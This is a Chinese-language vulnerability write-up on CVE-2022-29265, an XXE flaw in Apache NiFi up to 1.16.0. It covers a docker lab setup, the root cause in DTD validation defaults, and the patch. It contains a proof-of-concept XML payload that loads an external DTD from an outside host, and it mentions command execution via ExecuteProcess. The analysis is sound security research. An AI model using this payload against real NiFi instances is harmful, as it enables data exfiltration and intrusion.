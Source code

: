 # CVE-2022-29265 Apache NIFI XXE
## 影响版本
Apache NiFi-Apache =0.0.1 &&<=1.16.0
## 环境搭建
docker run --name nifi -p 8443:8443 -p 8000:8000 -d -e NIFI_JVM_DEBUGGER=1 apache/nifi:1.16.0
## 原理分析
### EvaluateXPath&EvaluateXQuery&ValidateXml
NIFI支持处理XML数据,相关的几个处理器为EvaluateXPath,EvaluateXQuery,ValidateXml等,其实在创建解析器时设置了相关的安全属性的.  
![](2022-06-20-17-17-59.png)
按理来说不存在DTD,但在创建处理器时,却有一个属性可以开启支持验证DTD(默认True),以EvaluateXQuery处理器为例,导致默认开启的安全属性被覆盖造成DTD.
![](2022-06-20-17-19-05.png)  
![](2022-06-20-17-21-46.png)
## 漏洞复现
poc:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://192.168.62.1:8091/test.dtd"> %dtd;]
```
![](2022-06-20-17-22-58.png)
![](2022-06-20-17-23-24.png)
## 后台RCE(番外)
NIFI还自带了一个处理器可以直接执行系统命令为ExecuteProcess.
![](2022-06-20-17-24-58.png)  
![](2022-06-20-17-25-20.png)
## 补丁
![](2022-06-20-17-27-23.png)
其实主要是将默认值改为了false,避免了默认情况下被恶意数据利用.